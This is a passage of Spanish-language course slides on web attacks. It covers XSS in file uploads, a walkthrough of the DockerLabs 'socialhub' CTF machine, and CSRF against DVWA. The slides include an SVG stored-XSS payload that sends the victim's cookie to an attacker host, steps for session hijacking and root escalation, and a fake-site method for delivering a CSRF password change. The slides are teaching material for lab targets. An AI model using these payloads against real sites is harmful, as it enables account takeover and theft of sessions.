\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl128_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Fuzzing con Burp para buscar XSS}
\small
  \begin{itemize}
  \item Podemos ver cada petición e incluso renderizarla en el navegador
  \item XSS
  \end{itemize}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl129_1.png}
\end{center}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl129_2.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{XSS en la subida de archivos}
\small
  \begin{itemize}
  \item En aplicaciones web en la que se pueden subir archivos, el uso normal es subir un jpg, por ejemplo:
    \begin{itemize}
    \item Si la lógica de la aplicación no está bien sanitizada, podríamos inyectar código js en el nombre del fichero:
    \end{itemize}
  \item XSS
  \end{itemize}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl130_1.png}
\end{center}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl130_2.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Ejercicio --- socialhub (DockerLabs)}
\small
  \begin{itemize}
  \item Vulnerabilidades Web / XSS
  \item La máquina
  \item Red social con un 'feed' y un usuario admin; permite subir
  \item una foto de perfil $\rightarrow$ oportunidad de XSS almacenado (SVG).
  \item 1) Enumeración
  \item nmap -p- -sCV \textless{}ip\textgreater{} $\rightarrow$ servicio web
  \item Descubrir el directorio /feed y al usuario admin.
  \item 2) XSS vía SVG $\rightarrow$ robo de la cookie del admin
  \item \textless{}svg xmlns=\textquotedbl{}http://www.w3.org/2000/svg\textquotedbl{}
  \item onload=\textquotedbl{}fetch('//atk/?c='+document.cookie)\textquotedbl{}\textgreater{}\textless{}/svg\textgreater{}
  \item Subirlo como foto de perfil $\rightarrow$ el admin lo abre $\rightarrow$ su cookie
  \item de sesión llega al atacante $\rightarrow$ reutilizarla (Burp) = sesión admin.
  \item 3) Acceso y escalada
  \item SSH como 'hijacking' $\rightarrow$ sudo -l $\cdot$ find / -perm -4000 $\rightarrow$ root
  \item github.com/Kevon99/CTF-Solutions --- socialhub (DockerLabs)
  \item Subir evil.svg
  \item (acepta 'imágenes')
  \item La víctima/admin lo abre
  \item $\rightarrow$ ejecuta el JS
  \item Roba document.cookie
  \item $\rightarrow$ sesión al atacante
  \item Stored XSS $\rightarrow$ Session Hijacking
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{XSS en la subida de archivos}
\small
  \begin{itemize}
  \item En este caso, tendríamos algo como
  \item \href{https://medium.com/r3d-buck3t/xss-to-exfiltrate-data-from-pdfs-f5bbb35eaba7}{XSS para exfiltrar datos de ficheros pdf}
  \item XSS
  \end{itemize}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl132_1.png}
\end{center}
\begin{center}
\includegraphics[width=0.9\textwidth,height=0.52\textheight,keepaspectratio]{img/sl132_2.png}
\end{center}
\end{frame}

\begin{frame}{Referencias y práctica --- Cross-Site Scripting (XSS)}
\footnotesize
  \begin{itemize}
  \item \href{https://portswigger.net/web-security/cross-site-scripting}{PortSwigger Web Security Academy --- XSS} (labs)
  \item \href{https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html}{OWASP --- XSS Prevention Cheat Sheet}
  \item \href{https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html}{OWASP --- DOM-based XSS Prevention}
  \item \href{https://portswigger.net/web-security/cross-site-scripting/cheat-sheet}{PortSwigger --- XSS Cheat Sheet (payloads)}
  \item \href{https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP}{MDN --- Content Security Policy (CSP)}
  \end{itemize}
\end{frame}

\section{CSRF}

\begin{frame}[allowframebreaks]{CSRF}
\small
  \begin{itemize}
  \item Cross-Site Request Forgery
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{CSRF --- Cross-Site Request Forgery}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item ¿Qué es?
  \item Una web maliciosa hace que el NAVEGADOR de la víctima (ya
  \item autenticada) envíe una petición al sitio vulnerable sin que
  \item ella lo sepa.
  \item Ejemplo (DVWA --- cambiar contraseña)
  \item GET /dvwa/vulnerabilities/csrf/?password\_new=1234\&
  \item password\_conf=1234\&Change=Change
  \item Entrega del payload
  \item Web falsa (apache2 en /var/www/html) $\cdot$ enlace en email $\cdot$
  \item con XSS almacenado se auto-dispara $\cdot$ curl con la cookie robada.
  \item Defensa: token anti-CSRF por petición $\cdot$ cookies SameSite $\cdot$
  \item verificar que la acción es intencionada.
  \item PortSwigger CSRF $\cdot$ OWASP CSRF Prevention
  \item Víctima autenticada
  \item visita la web del atacante
  \item El navegador envía
  \item la petición a DVWA
  \item Acción ejecutada
  \item (cambio de contraseña)
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{CSRF}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl135_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Realiza un ataque CSRF en la web DVWA}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl136_1.jpg}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Realiza un ataque XSS almacenado con un CSRF en DVWA}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl137_1.jpg}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{CSRF}
\small
  \begin{itemize}
  \item CSRF e Ingeniería Social:
    \begin{itemize}
    \item La idea es crear una web falsa que incorpore en payload del ataque CSRF.
    \item Con esto, sólo sería necesario engañar a la víctima para que visite esa web falsa, mientras está autenticada en DVWA.
    \item Pro ejemplo:
    \end{itemize}
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.82\textheight,keepaspectratio]{img/sl138_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{CSRF}
\small
  \begin{itemize}
  \item CSRF e Ingeniería Social:
    \begin{itemize}
    \item En el propio Kali, puedes levantar el servicio web con la web falsa
      \begin{itemize}
      \item sudo service apache2 start
      \item y colgar la web en el /var/www/html
      \end{itemize}
    \end{itemize}
  \end{itemize}
